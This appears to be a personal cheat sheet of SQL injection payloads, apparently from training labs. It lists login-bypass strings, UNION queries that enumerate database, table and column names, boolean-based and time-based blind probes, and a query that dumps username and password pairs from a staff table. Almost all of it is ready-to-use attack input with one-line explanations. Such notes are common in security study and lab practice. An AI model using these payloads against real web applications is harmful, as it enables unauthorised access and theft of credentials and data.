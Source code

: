 # Basic SQLi:
```admin' or 1=1; -- ```

```admin'; -- ```

```ad'||'min``` used for concatenation when having restrictions. Also in conjunction with a true statement: ```a' IS NOT 'b```

```admin'/* ``` when we cannot use '--'

Other variants: ```adm'||'in'/* ```

# Retrieve DB info (In-Band SQLi, Error-based and union SQLi):
```0 UNION SELECT 1``` ``` 0 UNION SELECT 1,2``` ```0 UNION SELECT 1,2,3``` etc until you no longer get an error => this would get the number of columns

```0 UNION SELECT 1,2,database()``` name of the database

```admin123' UNION SELECT 1,2,3 where database() like 's%';--``` for Boolean-based Blind SQLi (s%, sq%, sql%, etc until we get the entire name)

```0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'``` get name of all tables in database

```0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'``` get column names in table

``` admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';--``` get column names for Boolean-based Blind SQLi (after each name is found we have to remove it from the query: ```admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';```)

```0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users``` get data from table

# Time-based Blind SQLi:
```admin123' UNION SELECT SLEEP(5);--```

also try with adding more columns, maybe it works: ```admin123' UNION SELECT SLEEP(5),2;--```

